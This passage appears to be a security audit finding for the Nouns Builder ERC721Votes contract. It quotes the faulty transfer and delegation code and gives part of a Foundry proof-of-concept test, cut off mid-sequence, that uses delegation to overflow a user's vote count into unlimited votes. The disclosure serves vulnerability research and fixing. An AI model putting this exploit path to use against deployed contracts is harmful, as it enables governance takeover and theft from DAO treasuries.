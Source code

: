 `aftertokenTransfer` in ERC721Votes transfers votes between user addresses instead of the delegated addresses, so a user can cause overflow in `_moveDelegates` and get unlimited votes.

### Proof of Concept

<https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268>

        function _afterTokenTransfer(
            address _from,
            address _to,
            uint256 _tokenId
        ) internal override {
            // Transfer 1 vote from the sender to the recipient
            _moveDelegateVotes(_from, _to, 1);

            super._afterTokenTransfer(_from, _to, _tokenId);
        }

<https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L216>

        _moveDelegateVotes(prevDelegate, _to, balanceOf(_from));
        ...
        unchecked {
                    ...
                    // Update their voting weight
                    _writeCheckpoint(_from, nCheckpoints, prevTotalVotes, prevTotalVotes - _amount);
                }

During delegation `balanceOf(from)` amount of votes transferred are to the `_to` address

        function test_UserCanGetUnlimitedVotes() public {

            vm.prank(founder);
            auction.unpause();

            vm.prank(bidder1);
            auction.createBid{ value: 1 ether }(2);

            vm.warp(10 minutes + 1 seconds);

            auction.settleCurrentAndCreateNewAuction();
            
            assertEq(token.ownerOf(2), bidder1);

            console.log(token.getVotes(bidder1)); // 1
            console.log(token.delegates(bidder1)); // 0 bidder1

            vm.prank(bidder1);
            token.delegate(bidder2);

            console.log(token.getVotes(bidder1)); // 1
            console.log(token.getVotes(bidder2)); // 1

            vm.prank(bidder1);
            auction.createBid{value: 1 ether}(3);
